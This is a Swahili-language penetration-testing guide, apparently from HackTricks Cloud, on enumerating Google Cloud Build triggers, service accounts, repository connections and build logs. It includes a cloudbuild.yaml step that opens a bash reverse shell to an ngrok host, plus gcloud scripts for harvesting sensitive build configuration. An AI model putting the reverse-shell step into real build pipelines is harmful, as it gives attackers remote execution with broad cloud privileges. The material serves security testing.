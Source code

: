 # GCP - Uchambuzi wa Cloud Build

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi mtaalamu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalamu wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikionekana kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## Taarifa Msingi

Google Cloud Build ni jukwaa la CI/CD lililosimamiwa ambalo **linahakikisha ujenzi wa programu** na mchakato wa kutolewa, likiunganisha na **hifadhi ya msimbo wa chanzo** na kusaidia anuwai ya lugha za programu. **Inaruhusu watengenezaji kujenga, kujaribu, na kutolea msimbo kiotomatiki** huku ikitoa mabadiliko ya kubinafsisha hatua za ujenzi na mifumo ya kazi.

Kila Kichocheo cha Cloud Build **kinahusiana na Hifadhi ya Cloud au moja kwa moja inaunganishwa na hifadhi ya nje** (Github, Bitbucket na Gitlab).

{% hint style="success" %}
Sikuweza kuona njia yoyote ya kuiba token ya Github/Bitbucket kutoka hapa au kutoka kwa Hifadhi za Cloud kwa sababu wakati repo inapakuliwa inafikiwa kupitia URL ya [https://source.cloud.google.com/](https://source.cloud.google.com/) na Github haifikiwi na mteja.
{% endhint %}

### Matukio

Cloud Build inaweza kuzinduliwa ikiwa:

* **Kupakia kwa tawi**: Eleza tawi
* **Kupakia lebo mpya**: Eleza lebo
* **Ombi la Kuvuta**: Eleza tawi linalopokea PR
* **Mwaliko wa Mwongozo**
* **Ujumbe wa Pub/Sub:** Eleza mada
* **Tukio la Webhook**: Itafunua URL ya HTTPS na ombi lazima liwe limehakikiwa na siri

### Utekelezaji

Kuna chaguzi 3:

* Yaml/json **inayoeleza amri** za kutekeleza. Kawaida: `/cloudbuild.yaml`
* Moja tu inayoweza kuelezwa "kwa mstari" kwenye konsoli ya wavuti na kwenye cli
* Chaguo la kawaida zaidi
* Muhimu kwa ufikiaji usiothibitishwa
* **Dockerfile** ya kujenga
* **Buildpack** ya kujenga

### Ruhusa za SA

**Akaunti ya Huduma ina wigo wa `cloud-platform`,** hivyo inaweza **kutumia haki zote.** Ikiwa **hakuna SA inayoelezwa** (kama wakati wa kuwasilisha) **SA ya chaguo-msingi** `<nambari-ya-proj>@cloudbuild.gserviceaccount.com` itatumika.

Kwa chaguo-msingi hakuna ruhusa zinazotolewa lakini ni rahisi kumpa baadhi:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Idhini

Inawezekana kusanidi Cloud Build kuwa **inahitaji idhini kwa utekelezaji wa ujenzi** (imelemazwa kwa chaguo-msingi).

### Uunganisho & Hifadhi

Uunganisho unaweza kuundwa kupitia:

* **GitHub:** Itaonyesha dirisha la OAuth likiomba ruhusa ya **kupata token ya Github** ambayo itahifadhiwa ndani ya **Meneja wa Siri.**
* **GitHub Enterprise:** Itaomba kusakinisha **GithubApp**. **Tokeni ya uthibitishaji** kutoka kwa mwenyeji wako wa GitHub Enterprise itaundwa na kuhifadhiwa katika mradi huu kama siri ya **Meneja wa Siri.**
* **GitLab / Enterprise:** Lazima utoe **kitambulisho cha upatikanaji wa API na kitambulisho cha upatikanaji wa API ya Kusoma** ambayo itahifadhiwa katika **Meneja wa Siri.**

Marapo unapoundwa, unaweza kutumia kuunganisha hifadhi ambazo akaunti ya Github ina ufikiaji.

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Tafadhali kumbuka kuwa hifadhi zilizounganishwa kwa njia hii zinapatikana **tu katika Vichocheo vinavyotumia 2nd generation.**
{% endhint %}

### Unganisha Hifadhi

Hii sio sawa na **`unganisho`**. Hii inaruhusu njia **tofauti** za kupata **ufikiaji wa hifadhi ya Github au Bitbucket** lakini **haisababishi kitu cha kuunganisha, lakini inazalisha kitu cha hifadhi (ya kizazi cha 1).**

Chaguo hili linapatikana kupitia kitufe:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Uhifadhi

Wakati mwingine Cloud Build ita **zalisha uhifadhi mpya kuhifadhi faili za kichocheo**. Hii hutokea kwa mfano katika mfano ambao GCP inatoa na:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
A Storage bucket called [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) imeundwa kuhifadhi `.tgz` na faili zitakazotumika.

### Pata shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Uchambuzi

Unaweza kupata **maarifa nyeti katika mipangilio ya ujenzi na kumbukumbu**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Kupandisha Mamlaka

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Upatikanaji usiothibitishwa

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Baada ya Uvamizi

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
